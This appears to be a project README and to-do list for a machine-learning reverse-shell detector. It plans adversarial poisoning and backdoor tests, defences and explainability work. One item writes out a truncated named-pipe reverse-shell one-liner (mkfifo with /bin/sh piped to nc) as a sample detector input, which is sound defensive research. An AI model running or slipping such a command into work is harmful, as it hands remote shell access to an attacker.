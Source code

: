 # Quasar: Reverse Shell Detection with Machine Learning

<img src="img/quasaroutflow.png" height="400">

> NOTE: Starting tensorboard session for a logdir foler: `tensorboard --logdir FOLDER --port 8080`

## ToDo

1. Adversarial robustness tests:
   1. Poisoning:
      1. ~~pollution: ~~code~~ (`adversarial_poisoning_pollution.py`) | ~~run~~
      2. ~~backdoor (sparse region): ~~code~~ (`adversarial_poisoning_bacdoor.py`) | ~~run~~

         > NOTE: If results for some runs are anomalous -- delete files and rerun. This might be because some script runs blue-screen'ed my laptop, and best model from training was interrupted might actually be not optimal.

      3. Extend experiments to XGBoost

   2. Signature baseline -- stay robust? Worth showing.
   3. Defend:
      1. ~~adversarial training~~ (draw scheme)
      2. hybrid approach: ML + signatures in process?

2. Command splitting, e.g.: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc` to passing through ML model as separate commands?
   > Battista: "Used in Certification schemes." <-- ??

3. Explainability tests (???):
   1. Integrated gradients TODO
   2. Attention weights from transformer TODO
